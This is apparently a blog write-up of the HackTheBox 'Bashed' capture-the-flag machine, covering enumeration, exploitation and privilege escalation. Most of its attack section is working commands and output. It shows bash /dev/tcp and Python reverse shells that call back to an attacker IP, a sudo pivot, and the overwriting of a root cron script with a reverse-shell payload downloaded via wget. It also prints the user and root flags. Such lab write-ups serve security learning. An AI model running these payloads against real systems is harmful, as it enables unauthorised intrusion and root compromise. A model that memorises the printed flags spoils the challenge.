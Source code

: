```yaml
---
layout: post
title: HackTheBox Bashed 
date: 2017-12-09
tags: [HackTheBox, Linux]
---
```


# Machine Synopsis

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. ([Source](https://www.hackthebox.com/machines/bashed))

# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.0038s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=3/6%OT=80%CT=1%CU=40211%PV=Y%DS=2%DC=T%G=Y%TM=62249ED7
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

TRACEROUTE (using port 110/tcp)
HOP RTT     ADDRESS
1   3.00 ms 10.10.14.1
2   4.14 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.49 seconds
```

It seems like there’s a website…

Let’s check it out!

![website](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bashed/website.png?raw=true)

Checking around the website showed nothing interesting.

Let’s use `dirsearch`! OwO

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# dirsearch -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
...
[19:48:55] Starting: 
[19:48:55] 301 -  311B  - /images  ->  http://10.10.10.68/images/
[19:48:56] 301 -  312B  - /uploads  ->  http://10.10.10.68/uploads/
[19:48:56] 301 -  308B  - /php  ->  http://10.10.10.68/php/
[19:48:56] 301 -  308B  - /css  ->  http://10.10.10.68/css/
[19:48:57] 301 -  308B  - /dev  ->  http://10.10.10.68/dev/
[19:48:57] 301 -  307B  - /js  ->  http://10.10.10.68/js/
[19:49:01] 301 -  310B  - /fonts  ->  http://10.10.10.68/fonts/
[19:55:21] 403 -  299B  - /server-status
...
```

Looks like there is an interesting `/dev` path, let’s check it out!

![dev](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bashed/dev.png?raw=true)

Hmm… what is this `phpbash.php`?

![phpbash](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Bashed/phpbash.png?raw=true)

Oh, It’s a in built bash terminal!

# Exploitation

Let’s open a netcat listener and try to execute a reverse shell :D

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.21/1234 <&1'
```

Hmm… this doesn’t seem to work.

Let’s try using a Python reverse shell instead~

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Yay! It worked!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# nc -nlvp 1234              
listening on [any] 1234 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.68] 58994
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

It seems like we can run `sudo` commands as `scriptmanager`!

Let’s test it out and execute another reverse shell (remember to open another netcat listener)!

```bash
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager whoami
scriptmanager
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
<(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'    
- Netcat Listener -

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# nc -nlvp 6969              
listening on [any] 6969 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.68] 35016
scriptmanager@bashed:/var/www/html/dev$ whoami
scriptmanager
```

# Privilege Escalation

Let’s find out what files do `scriptmanager` own.

```bash
scriptmanager@bashed:/var/www/html/dev$ find / -xdev -type f -user scriptmanager 2>/dev/null;

/scripts/test.py
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

It seems like there’s any interesting `test.py` script :o

```bash
scriptmanager@bashed:/var/www/html/dev$ cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/var/www/html/dev$ ls -la /scripts/
ls -la /scripts/
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Mar  6 04:20 test.txt
```

The `test.txt` that is being generated from `test.py` is owned by root, which probably indicates that the cronjob is executed as root!

Now, we need to write a malicious `test.py`, host it on our server, and then use `scriptmanager` to download the file and override its original `test.py`! 

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# cat test.py         
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")   

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

- scriptmanager - 

scriptmanager@bashed:/var/www/html/dev$ cd /scripts/
scriptmanager@bashed:/scripts$ wget 10.10.14.21/test.py -O test.py

- netcat listener - (wait for the cronjob to run)

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Bashed]
└─# nc -nlvp 9999       
listening on [any] 9999 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.68] 52654
root@bashed:/scripts# cd /home
root@bashed:/home# ls
arrexel  scriptmanager
root@bashed:/home# cd arrexel
root@bashed:/home/arrexel# cat user.txt
2c281f318555dbc1b856957c7147bfc1
root@bashed:/home/arrexel# cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```





